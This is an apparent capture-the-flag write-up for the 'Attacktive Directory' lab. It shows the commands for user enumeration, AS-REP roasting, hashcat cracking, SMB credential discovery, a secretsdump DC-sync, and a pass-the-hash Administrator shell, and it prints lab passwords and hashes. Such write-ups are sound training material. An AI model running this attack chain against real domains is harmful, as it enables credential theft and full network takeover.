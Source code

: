 # Attacktive Directory

## Enumeration

### nmap

Ran nmap and found a domain mentioned on the ldap port of spookysec.local. Updated this in the /etc/hosts file.

Also saw port 139/445 open.

### enum4linux

```bash
enum4linux -a spookysec.local
```

Found a domain for a workgroup on spookysec.local which was THM-AD.

### kerbrute

```bash
/home/kali/go/bin/kerbrute userenum --dc spookysec.local -d spookysec.local userlist.txt
```

Identified a list of valid users.

## Exploitation

### GetNPUsers.py

```bash
python3 /usr/share/doc/python3-impacket/examples/GetNPUsers.py spookysec.local/svc-admin -no-pass
```

Took the output and placed it in a hash.txt file.

### Hashcat

```
hashcat -m 18200 hash.txt passwordlist.txt
```

Password was cracked from the hash.txt file

## Enumeration (Again)

Now that we have valid credentials we can check to see what other access we have.

### smbclient

```bash
smbclient -L //spookysec.local -U svc-admin --option='client min protocol=NT1'
# Then entered password of management2005 when prompted
smbclient //spookysec.local/backup -U svc-admin --option='client min protocol=NT1'
# backup@spookysec.local:backup2517860
```

## Privilege Escalation

### secretsdump.py

```bash
/usr/share/doc/python3-impacket/examples/secretsdump.py -just-dc backup@spookysec.local
```

We were able to dump users and their hashes including the Administrator. `aad3b435b51404eeaad3b435b51404ee:0e0363213e37b94221497260b0bcb4fc`

### evil-winrm.rb

```bash
evil-winrm -i 10.10.143.254 -u Administrator -H 0e0363213e37b94221497260b0bcb4fc
```

And we get a shell as the Administrator user.
